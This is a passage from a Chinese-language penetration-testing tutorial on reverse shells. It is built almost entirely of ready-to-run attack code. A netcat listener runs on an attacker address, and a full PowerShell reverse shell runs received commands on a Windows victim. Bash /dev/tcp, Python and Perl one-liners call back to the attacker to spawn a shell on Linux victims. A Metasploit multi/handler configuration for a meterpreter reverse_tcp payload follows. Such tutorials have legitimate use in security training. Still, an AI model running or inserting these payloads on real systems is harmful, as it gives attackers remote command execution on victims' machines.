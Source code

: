 *   **攻击机 (Kali Linux 192.168.1.100) 监听**：
    ```bash
    nc -lvnp 4444
    ```
    *   `-l`: 监听模式
    *   `-v`: 详细输出
    *   `-n`: 不进行 DNS 解析
    *   `-p`: 指定端口

*   **受害机 (Windows) 回连 Shell (PowerShell)**：
    ```powershell
    # 攻击机 IP: 192.168.1.100, 端口: 4444
    $client = New-Object System.Net.Sockets.TCPClient('192.168.1.100', 4444);
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..65535|%{0};
    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
        $sendback = (iex $data 2>&1 | Out-String);
        $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $stream.Write($sendbyte, 0, $sendbyte.Length);
        $stream.Flush();
    }
    $client.Close();
    ```

*   **受害机 (Linux) 回连 Shell (Bash)**：
    ```bash
    # Bash
    bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

    # Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

    # Perl
    perl -e 'use Socket;$i="192.168.1.100";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```

### 3.2 Metasploit Framework

Metasploit 提供了强大的 `exploit/multi/handler` 模块作为监听器，并支持多种复杂的 Reverse TCP Payload (如 Meterpreter)。

*   **攻击机 (`msfconsole`) 监听**：
    ```bash
    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp  # 或其他反向 Shell Payload
    set LHOST 192.168.1.100
    set LPORT 4444
    run
    ```
